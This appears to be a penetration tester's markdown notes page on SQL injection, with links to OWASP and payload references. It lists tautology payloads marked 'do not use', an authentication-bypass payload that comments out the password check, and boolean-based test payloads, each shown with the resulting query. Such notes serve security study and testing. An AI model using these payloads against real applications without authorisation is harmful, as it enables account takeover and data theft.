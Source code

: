 ```yaml
---
id: SQL-injection
aliases:
  - SQLi
tags:
  - Networking/Services/SQL
links: "[[SQL]]"
---
```


# SQL injection

## Resourcers

- [OWASP - SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [TCM Security - Avoid OR 1=1](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)
- [GitHub - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-remote-code-execution)

## DO NOT USE

```sql
# OR <true>
OR 1=1
' OR '1'='1
```

## Payloads

<!-- Payloads {{{-->
<details>
  <summary><b>Authentication bypass</b></summary>

```sql
admin'; -- -
```
```sql
SELECT * FROM users WHERE username = 'admin'; -- -' AND password = 'password'
```

</details>

___
<!-- }}} -->

<!-- Boolean {{{-->
<details>
  <summary><b>Boolean</b></summary>

```sql
admin' AND '1'='1 / ' AND '1'='2
```
```sql
SELECT * FROM articles WHERE author = 'admin' AND '1'='1'
```

</details>

___
<!-- }}} -->
